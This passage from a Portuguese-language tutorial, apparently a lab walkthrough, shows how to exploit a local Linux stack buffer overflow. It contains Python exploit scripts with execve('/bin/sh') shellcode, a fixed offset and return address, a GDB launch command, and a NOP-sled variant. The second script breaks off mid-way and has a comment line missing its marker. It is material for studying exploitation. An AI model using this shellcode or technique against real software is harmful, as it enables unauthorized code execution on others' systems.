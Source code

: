 `$ cat exploit.py`
```python
#!/usr/bin/python

import struct

shell = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6
\xb8\x3b\x00\x00\x00\x0f\x05"

#offset
payload = "A" * 56
#endereco de retorno
payload += struct.pack("<Q", 0x7fffffffdf00)
#shellcode
payload += shell

print payload
```
Para enviar o exploit via GDB, pode ser utilizado o comando `r < <(python exploit.py)`. Ao executar o binário via GDB enviando este script, é possível obter o retorno de que o programa chamou o `/bin/dash`, conforme imagem abaixo:

![Programa chamando /bin/dash via GDB.](/img/std/linbof/gdb-6.png)

O exploit está funcional quando é executado por dentro do GDB, pois o endereço de retorno encontrado, considera não so o binário, mas o próŕio GDB. Porém, quando é executado via terminal, existe um decremento não específico dos endereços de memória, como não é possível "adivinhar" este decremento, o script pode ser adaptado com a técnica de *NOP Sled*.

#### NOP Sled

O *opcode* `NOP`, representado pelo byte `\x90`, é uma instrução Assembly que não faz absolutamente nada. Quando é inserido uma cadeia de NOPs, o programa simplesmente "desliza" sobre eles. Como não é possível descobrir o decremento dos valores de memória, é possível fazer um acréssimo no endereço de retorno seguido de uma cadeia de NOPs.
Isto vai fazer com que o endereço de retorno aponte para um lugar bem abaixo da *Stack*, e logo em seguida o programa vai percorrer os NOPs até o *shellcode*, fazendo com que o exploit se adapte às diferenças de endereços. O sicript adaptado fica como abaixo:

`$ cat exploit.py`
```python
#!/usr/bin/python

import struct

#cadeia de NOPs
nops = "\x90" * 200

shell = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6
\xb8\x3b\x00\x00\x00\x0f\x05"

#offset
payload = "A" * 56
Endereço de retorno acrescido de 200
payload += struct.pack("<Q", 0x7fffffffdf00 + 200)
#cadeia de NOPs
payload += nops
#shellcode
```